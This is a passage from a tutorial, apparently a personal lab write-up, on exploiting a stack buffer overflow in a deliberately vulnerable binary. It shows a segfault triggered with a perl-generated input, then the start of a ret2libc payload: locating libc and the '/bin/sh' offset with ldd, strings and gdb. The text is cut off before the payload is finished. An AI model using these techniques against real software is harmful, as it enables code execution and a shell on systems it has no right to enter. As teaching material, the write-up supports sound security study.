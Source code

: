 # Exploiting the SOF vulnerability

Now that we have disabled common BOP features and understand the assembler of our vulnerable binary, we will begin exploiting. One of the first things I like to do (after reviewing the assembler dump) is to verify that an overflow exists by triggering a segmentation fault. This is done by providing data to a program which in our case, get's strcpy'd into a fixed width buffer.

    th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master 
    ⇒  bin/sof $(perl -e 'print "A" x 260')
    [1]    6406 segmentation fault (core dumped)  bin/sof $(perl -e 'print "A" x 260')
    

When we strcpy 260 'A' characters into the buffer, we get a segmentation fault. This is because we overwrote the four bytes of memory after the end of our buffer. Segmentation faults are exceptions that get raised by hardware with memory protection. It indicates that something tried writing to a region of memory it shouldn't have.

## Creating the payload

In order to successfully call `system`, we need to place a few different values on the stack, when we overflow the buffer. We need the address of "/bin/sh" found in libc.so, an address that execution will return to when system has finished, and an address to the system call itself.

To get the address to '/bin/sh', we can calculate it by taking the starting address of libc.so and adding the offset of '/bin/sh' to it.

To see the absolute path to the libc.so library that our binary uses, we use `ldd`. This is needed for the next step.

    th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master
    ⇒  ldd bin/sof
    	linux-gate.so.1 (0xf7fd2000)
    	libc.so.6 => /lib/libc.so.6 (0xf7deb000)
    	/lib/ld-linux.so.2 (0xf7fd4000)
    
    

Next, we use `strings` to report the offset of any string it finds in libc.so and grep the output for what we're after.

    th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master
    ⇒  strings -a -t x /lib/libc.so.6 | grep '/bin/sh'   
     16a23e /bin/sh
    

Running `vmmap` will also provide the starting address of libc.so when ran from a active gdb session.

    th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master 
    ⇒  gdb -q bin/sof
    
    @gef➤  vmmap
    Start      End        Offset     Perm Path
    0x08048000 0x08049000 0x00000000 r-x /home/th3v0id/repos/bufferoverflows/stack/01/bin/sof
    0x08049000 0x0804a000 0x00000000 rwx /home/th3v0id/repos/bufferoverflows/stack/01/bin/sof
    0xf7deb000 0xf7fa4000 0x00000000 r-x /usr/lib/libc-2.26.so
    0xf7fa4000 0xf7fa5000 0x001b9000 --- /usr/lib/libc-2.26.so
    0xf7fa5000 0xf7fa7000 0x001b9000 r-x /usr/lib/libc-2.26.so
    0xf7fa7000 0xf7fa8000 0x001bb000 rwx /usr/lib/libc-2.26.so
    0xf7fa8000 0xf7fab000 0x00000000 rwx 
    0xf7fcd000 0xf7fcf000 0x00000000 rwx 
    0xf7fcf000 0xf7fd2000 0x00000000 r-- [vvar]
    0xf7fd2000 0xf7fd4000 0x00000000 r-x [vdso]
    0xf7fd4000 0xf7ffc000 0x00000000 r-x /usr/lib/ld-2.26.so
    0xf7ffc000 0xf7ffd000 0x00027000 r-x /usr/lib/ld-2.26.so
    0xf7ffd000 0xf7ffe000 0x00028000 rwx /usr/lib/ld-2.26.so
    0xfffda000 0xffffe000 0x00000000 rwx [stack]
    